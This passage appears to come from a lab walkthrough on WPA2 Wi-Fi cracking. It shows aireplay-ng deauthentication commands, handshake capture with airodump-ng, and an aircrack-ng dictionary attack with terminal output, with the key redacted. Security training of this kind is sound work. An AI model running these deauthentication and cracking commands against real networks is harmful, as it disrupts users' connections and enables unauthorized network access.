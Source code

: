 ```
Deauthentication packets: The tool aireplay-ng sends deauthentication packets to either a specific client (targeted attack) or to all clients connected to an access point (broadcast attack). These packets are essentially "disconnect" commands that force the client to drop its current Wi-Fi connection.
Forcing a reconnection: When the client is disconnected, it automatically tries to reconnect to the Wi-Fi network. During this reconnection, the client and access point perform the 4-way handshake as part of the reauthentication process.
Capturing the handshake: This is where airodump-ng comes into play because it will capture this handshake as it happens, providing the data needed to attempt the WPA/WPA2 cracking.
```

We can do this with sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2. The -0 flag indicates that we are using the deauthentication attack, and the 1 value is the number of deauths to send. The -a indicates the BSSID of the access point and -c indicates the BSSID of the client to deauthenticate.
Terminal

glitch@wifi:\~$ sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
19:29:37  Waiting for beacon frame (BSSID: 02:00:00:00:00:00) on channel 6
19:29:38  Sending 64 directed DeAuth (code 7). STMAC: \[02:00:00:00:01:00\] \[ 0| 0 ACKs\]

Now, if we look back on our first terminal, we will see the WPA handshake shown on the top-right of our output as WPA handshake: 02:00:00:00:00:00. All of this information is being saved into our output files.
Terminal

CH  6 \]\[ Elapsed: 1 min \]\[ 2024-11-02 19:30 \]\[ WPA handshake: 02:00:00:00:00:00

BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140  EAPOL

In the second terminal, we can use the captured WPA handshake to attempt to crack the WPA/WP2 passphrase. We will be performing a dictionary attack in order to match the passphrase against each entry in a specified wordlist file. A shortened version of the infamous rockyou.txt wordlist has already been provided for us to use. This is located in the /home/glitch/ directory. If the passphrase is weak and appears in the wordlist, it will eventually be cracked. The command sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output\*cap will do this for us where the -a 2 flag indicates the WPA/WPA2 attack mode. The -b indicates the BSSID of the access point, and the -w flag indicates the dictionary list to use for the attack. Finally, we select the output files that we will be using, which contain the 4-way handshake that we will be cracking.
Terminal

glitch@wifi:\~$ sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output\*cap
Reading packets, please wait...
Opening output-file-01.cap
Read 276 packets.
1 potential targets

```
                           Aircrack-ng 1.6 

  [00:00:01] 304/513 keys tested (217.04 k/s) 

  Time left: 0 seconds                                      59.26%

             KEY FOUND! [ REDACTED ]


  Master Key     : B6 53 9A 71 8C C4 74 5F E3 26 49 82 37 74 65 09 
                   BE C5 62 CE 43 C4 68 A7 B4 8F 8C E6 98 EE 1C CB 

  Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
```